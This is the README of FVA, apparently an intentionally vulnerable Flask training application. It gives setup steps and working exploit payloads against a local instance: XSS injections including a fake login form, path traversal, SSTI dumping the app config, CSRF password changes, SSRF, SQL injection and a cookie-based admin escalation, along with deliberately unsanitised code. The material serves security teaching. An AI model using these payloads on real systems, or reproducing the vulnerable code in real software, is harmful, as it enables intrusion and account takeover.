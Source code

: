 # Description:
FVA Flask Vulnerable Application was developed for the purpose of learning. 

# Installation
##### Clone and install the application
```BASH
git clone https://github.com/FIR-UIII/FVA.git
cd FVA
python3 -m venv {name}
source bin/activate
pip install -r requirements.txt
```
##### Install PostgreSQL
Please see the documentation: https://www.postgresql.org/docs/current/tutorial-install.html

# TODO:
* сделать заглушки в случае невалидных логина или пароля или необходиомсти аутентификации
* csrf добавить подключение к БД psql
* перенести в env основные конфигурационные настройки

# Vulnerabilities 
1. XSS
Exploits:
```html
1. GET injection: http://{URL}/xss?param=<script>alert(1)</script>
2. HTML img injection: <img src=https://stackoverflow.com/ onerror=alert(1)>
3. JS  injection: <script>alert(document.domain)</script>
4. HTML tag injection: <a href="javascript:alert(document.domain);">click here</a>
5. Iframe injection: <iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>
6. Iframe injection:<iframe src="http://httpforever.com/></iframe>
7. Form injection:
<form name="login" action="http://ip: port/">
 	<label for="login">login: </label>
 	<input type="text" name="login" required>
 	<br>
 	<label for="password">password: </label>
 	<input type="password" name="password" required>
 	<br>
 	<input type="submit" value="Login!">
 </form>
8. Service worket injection:
<script>
window.addEventListener('load', function() {
    var sw = "/sw.js";
    navigator.serviceWorker.register(sw, {scope: '/'})
       .then(function(registration) {
            console.log('Service Worker registered successfully');
        })
       .catch(function(err) {
            console.error('Service Worker registration failed:', err);
        });
});
</script>
```

Vulnerable code:
```modules/xss.py
user_input = request.args.get('param') #<-- точка ввода через query параметры xss reflected + SSTI  
return render_template('xss.html', user_input=user_input) #<-- небезопасный вывод пользователю данных без санитизации
data = request.form['user_input'] #<-- точка пользовательского ввода без валидации xss stored
```

# PATH TRAVERSAL
открыть код и найти каким образом идет обращение к картинке
'view-source:http://localhost:8888/path_travers'
'<img src="/path_travers_img/?img=/static/scripting.png" alt="what_is_that" width="100" height="100"></p>'

exploit
```URL
http://localhost:8888/path-travers-img/?img=/static/scripting.png
http://localhost:8888/path_travers_img/?img=/README.md
http://localhost:8888/path_travers_img/?img=/../venv.txt
```

# SSTI 
exploit
```URL
http://localhost:8888/ssti?param={{(9*9)}}
http://localhost:8888/ssti?param={{%20config.items()%20}}
```

# XSS via Service worker
/upload

PoC upload sw.js
```js
setInterval(function() {
  console.log("U been h@cked");
}, 5000);
```

# CSRF
/csrf через другую вкладку
python3 -m http.server 9000
Фишинговая ссылка hacker_csrf.html
http://127.0.0.1:9000/Projects/FVA/hacker_csrf.html

/csrf через GET
http://localhost:8888/change_password?id=1&new_password=h@cked

# SSRF
GET request: 
http://localhost:8888/ssrf?url=http://localhost:8888/xss

POST request: 
curl -X POST -d "url=http://localhost:8888/xss" http://localhost:8888/ssrf


# SQl injection
brew services start postgresql
psgl postgres
python init_db.py from modules.init_db import create_database
=# \dt
=# SELECT * FROM users;

injection 
login: ' OR 1=1; --
password: any

# command_injection
/go to command_injection
change cookie to admin > base64

# CORS test
python -m http.server 8000
devtools > console:
fetch('http://localhost:8888/api/users')
  .then(response => response.text())
  .then(data => console.log(data))
  .catch(error => console.error('Error:', error));

  
